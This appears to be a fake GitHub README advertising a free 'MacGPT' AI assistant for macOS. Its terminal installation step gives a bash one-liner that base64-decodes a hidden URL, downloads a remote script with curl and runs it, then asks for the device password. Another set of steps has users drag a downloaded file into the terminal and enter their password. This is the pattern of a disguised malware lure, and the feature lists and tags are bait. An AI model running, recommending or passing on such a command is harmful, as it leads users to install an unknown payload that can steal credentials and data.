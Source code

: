 # MacGPT for Mac Download

![MacGPT Screenshot 1](https://cdn.mos.cms.futurecdn.net/KskGfTjuMC2mkLqxy8TbrU.png)

---

## 📥 Download MacGPT for macOS

[![⬇️ Download MacGPT](https://img.shields.io/badge/Download-MacGPT-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/MacGPT)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is MacGPT for Mac?

MacGPT is an intuitive and powerful AI assistant for macOS, leveraging the power of GPT-based technology. It provides seamless access to AI-driven conversational models, making it perfect for anyone looking for intelligent assistance right on their Mac.

With MacGPT, you can have real-time conversations, access detailed answers, and even get help with complex tasks such as writing, coding, summarizing documents, and brainstorming ideas. Optimized for macOS, it integrates well with your system and offers a fluid, easy-to-use interface.

Whether you're using it for productivity, creativity, or just as a fun tool, MacGPT brings the power of GPT to your fingertips, enhancing your Mac experience.

---

![MacGPT Screenshot 2](https://images.macrumors.com/t/dxv-fL4alp8zuwzDwJ6j6haQnqM=/3040x/article-new/2023/03/macgpt.jpg)

---

## ⚙️ Key Features

- 🧠 AI-Powered Assistance – Powered by GPT models for seamless, real-time conversation  
- 📝 Task Automation – Use MacGPT for writing, summarizing, and generating ideas  
- 💻 Mac Optimized – Native integration with macOS for a smooth experience  
- 📡 Fast Responses – Instant and intelligent answers to a wide range of queries  
- 🎨 Creative Support – Assist with brainstorming, design ideas, and content creation  
- 🖥️ Easy-to-Use Interface – Simple, intuitive, and well-suited for macOS users  
- 📱 Seamless Sync – Sync your data and notes across multiple devices  
- 🔒 Data Security – Privacy-focused with secure communication  

---

## ✅ Suitable For

- Students & Writers  
- Developers & Coders  
- Content Creators  
- Research Professionals  
- Anyone looking for an intelligent assistant  

---

## 📦 System Requirements

- macOS 10.12 (Sierra) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

macgpt, macgpt free, macgpt download, macgpt for mac, macgpt app, gpt mac, macgpt assistant, macgpt ai, macgpt download free, macgpt download mac, macgpt mac app, macgpt free download, macgpt for writing, macgpt macbook, macgpt productivity
